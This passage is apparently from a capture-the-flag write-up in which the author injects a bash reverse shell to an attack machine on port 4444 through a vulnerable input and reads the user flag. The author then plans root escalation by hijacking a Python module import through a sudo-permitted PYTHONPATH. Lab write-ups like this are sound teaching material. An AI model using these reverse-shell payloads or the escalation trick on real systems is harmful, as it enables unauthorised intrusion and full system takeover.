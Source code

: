 The first payload I used was the following:

```bash
'hello' && bash -i >& /dev/tcp/<attack_machine_id>/4444 0>&1
```

My shell was having issues. I wasn't seeing output from my commands. I disconnected and restarted my listener. I ran the following payload:

```bash
'hello' && bash -i >& /dev/tcp/10.103.66.16/4444 0>&1 || id
```

The || id will ignore the rest of the command so it will echo hello and then connect to my attack machine.

I have a shell. I'm in!

I see that I am the user wes. I go to /home/wes and look for the flag:

```bash
$ cd /home/wes
$ ls
user.txt
$ cat user.txt
REDACTED
```

## Escalate your privileges to root and read root.txt

I run my usual [privilege escalation commands](/concepts/privilege_escalation.md#linux-privilege-escalation), `sudo -l` didn't disappoint:

```bash
$ sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

I can't modify the python3 binary and I can't modify the test_module.py file. The test_module.py has the following lines:

```python
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

This code is importing from the compare module. I can create my own compare module, reference with the PYTHONPATH variable and then I'll have a shell. The PYTHONPATH variable is used by python to point to any custom modules a user would like to use.

In this case, since I can modify it for the user wes, I can create a compare module that will create a new shell. Since I am running python with sudo, I will have a root shell.
